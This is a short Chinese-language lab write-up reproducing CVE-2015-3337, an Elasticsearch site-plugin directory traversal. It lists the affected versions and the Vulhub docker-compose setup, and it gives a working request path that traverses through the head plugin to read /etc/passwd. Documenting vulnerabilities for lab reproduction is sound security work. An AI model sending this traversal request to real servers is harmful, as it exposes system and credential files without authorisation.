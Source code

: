 # ElasticSearch 目录穿越漏洞 CVE-2015-3337

## 漏洞描述

在安装了具有“site”功能的插件以后，插件目录使用`../`即可向上跳转，导致目录穿越漏洞，可读取任意文件。没有安装任意插件的elasticsearch不受影响。

## 漏洞影响

```
Elasticsearch 1.4.5以下/1.5.2以下
```

## 环境搭建

jre版本：openjdk:8-jre

elasticsearch版本：v1.4.4

Vulhub编译及运行测试环境

```
docker-compose build
docker-compose up -d
```

测试环境默认安装了一个插件：`elasticsearch-head`，主页在此：https://github.com/mobz/elasticsearch-head

## 漏洞复现

访问`http://your-ip:9200/_plugin/head/../../../../../../../../../etc/passwd`读取任意文件（不要在浏览器访问）：

![image-20230306151546964](images/image-20230306151546964.png)
